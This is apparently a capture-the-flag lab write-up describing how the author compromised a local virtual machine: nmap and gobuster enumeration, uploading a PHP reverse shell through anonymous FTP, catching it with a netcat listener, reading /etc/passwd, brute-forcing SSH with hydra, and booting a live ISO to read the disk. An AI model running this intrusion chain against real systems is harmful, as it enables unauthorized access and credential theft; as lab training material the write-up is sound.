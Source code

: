 # Task 1: Gain access to a remote server.

After starting the machine, our first task is to identify the ip of the virtual machine in local subnet. I did that by simply doing an nmap scan on the local subnet, since we already know the machine will be hosting a server. There probably are better methods to do the same, but I found this one to be easy and fast in this case.  
`nmap 192.168.1.1/24`  
Within a few seconds, we see only 192.168.1.1 and 192.168.1.10 have open http ports, and since 192.168.1.1 is our router interface, the machine has to be 192.168.1.10.

Now we perform an indepth nmap scan of the ip, using service detection.  
`nmap 192.168.1.10 -sV -p-`  
~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:42:22:F8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
After running the following command, we find only open ports to be 21(ftp), 22(ssh) and 80(http). I tried finding the versions of these service on exploit-db but couldn't find a decent exploit and decided to investigate other things first. Using gobuster, we can perform directory enumeration on port 80 to find common directories.  
`gobuster dir -e -u http://192.168.1.10/ -w /usr/share/wordlists/dirb/common.txt`  
~~~
http://192.168.1.10/.hta                 (Status: 403) [Size: 277]
http://192.168.1.10/.htpasswd            (Status: 403) [Size: 277]
http://192.168.1.10/.htaccess            (Status: 403) [Size: 277]
http://192.168.1.10/files                (Status: 301) [Size: 312] [--> http://192.168.1.10/files/]
http://192.168.1.10/index.html           (Status: 200) [Size: 183]                                 
http://192.168.1.10/server-status        (Status: 403) [Size: 277] 
~~~
We found /files/ directory to be accessible by us containing a file 'site.html', which isn't particularly useful though.  
Next we investigate the ftp port and check if it allows anonymous connections:  
`ftp 192.168.1.10`  
~~~
Connected to 192.168.1.10.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.10]
Name (192.168.1.10:tinytrebuchet): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp            93 Oct 10 15:02 site.html
~~~
As we can see, the ftp allows anonymous access into the /files/ directory and we can now upload any file via ftp to the server and run it from /files/ on port 80. To get into the server, we will upload a simple php-reverse-shell on port 8888.  
`cp /usr/share/webshells/php/php-reverse-shell.php ~/innocent.php`  
Then we modify the reverse-shell script and change ip to our host os ip (192.168.1.6 for our case found using `ip addr`) and port to 8888. Then finally upload it the server using the ftp connection.  
`put innocent.php`  
~~~
local: innocent.php remote: innocent.php
200 PORT command successful
150 Opening BINARY mode data connection for hash.txt
226 Transfer complete
5493 bytes sent in 0.00 secs (7.9493 kB/s)
~~~
Now, we open a netcat listener on our host os at port 8888 using and then execute the reverse-shell from the http://192.168.10/files/ directory.
We should get a successful connect on our host os:
`nc -lvp 8888`
~~~
listening on [any] 8888 ...
192.168.1.10: inverse host lookup failed: Unknown host
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.10] 37384
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 02:56:34 up 39 min,  0 users,  load average: 0.08, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~
A good practice is to stabilize the reverse shell, which can be done easily if the server has python installed, that way we have support for tab-autocompletion and Ctrl-C doesn't close our netcat listener. This can be done by executing the following commands:  
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ export TERM=xterm
```
Then, we press Ctrl-Z on our keyboard to background the reverse shell, modify the stty on your host os, and then foreground:  
`stty raw -echo; fg`  
After this, we should have a fully stabilized reverse-shell.  

We are logged in as www-data: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`, which doesn't have a lot of permissions, so I thought we might need to perform privilege escalation later. But first, we checked the machine for some basic info.  
`cat /etc/passwd`
~~~
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ftp:x:1001:1001:,,,:/home/ftp:/bin/bash
colord:x:110:119:colord colour management daemon,,,:/var/lib/colord:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
dk:x:1000:1000:dk:/home/dk:/bin/bash
~~~
`cd /home/; ls -al`
~~~
drwxr-xr-x  3 root root   4096 Oct 10 08:55 .
drwxr-xr-x 23 root root   4096 Oct 10 09:17 ..
-rwxr-xr-x  1 root root 211528 Aug  5 04:35 .fishy.vt
-rw-r-----  1 root root  16384 Aug  5 08:08 .fishy.vt.swp
drwxr-x---  4 dk   dk     4096 Oct 15 20:48 dk
-rwxr-xr-x  1 root root     32 Aug  5 08:06 runme.sh
~~~
We see the machine has another user named 'dk' and we don't have access to his home directory. The key should be in there somewhere. There's also a runme.sh script which just cats .fishy.vt slowly using pv, as an asciimation. However the file has an interesting 32 digit base64 encoded string written in it on top : 'mpthRrM4f0XPQem4ISiZL3kxDgMLrX6S'. I checked if it's the password of any user, dk or root, by doing `su <user>` and putting this as password, but no use. I also tried to bruteforce the password by using hydra on ssh port, but without any success (the connection seemed to be possible throttled).  
`hydra -l dk -P /usr/share/wordlists/rockyou.txt 192.168.1.10 -t 4 -vV -I -f ssh`  
I decided to investigate for privilege escalation on the machine. I used the 'linpeas.sh' and 'LinEnum.sh' scripts available on github to find any vulnerablites. I put them in the /files/ directory using the ftp connection from host os, and then copied them from /var/www/html/files/ to /tmp/ on the server. I checked for any exploitable SUID file or crontabs or anyother vulnerablity in general but couldn't find anything much useful and exploitable. I even tried to look for kernerl exploits from exploit-db but with no success. After a lot of thinking and finding, and since I was running short on time, I finally gave up on this.  


## Method 2
I actually thought of this method immediately when I saw the ova file, but decided to save it for last, as it doesn't involving finding vulnerablites in the server, but is rather a dirty trick, but it still allowed me to get the key in under 5 mins, so I thought to share it here.  
The plan was, if the machine has unencrypted file system, we could simple boot from a live-usb to access the filesystem and get the key from dk's home directory. I used my handy arch-iso (I use arch btw 😛), put that into virtual machine's storage devices under 'Controller: IDE', marked it as 'Live CD/DVD' on right pane, saved the changes and rebooted the machine. As expected, the machine booted from live arch iso, and we could easily get the file by mounting the file system.  
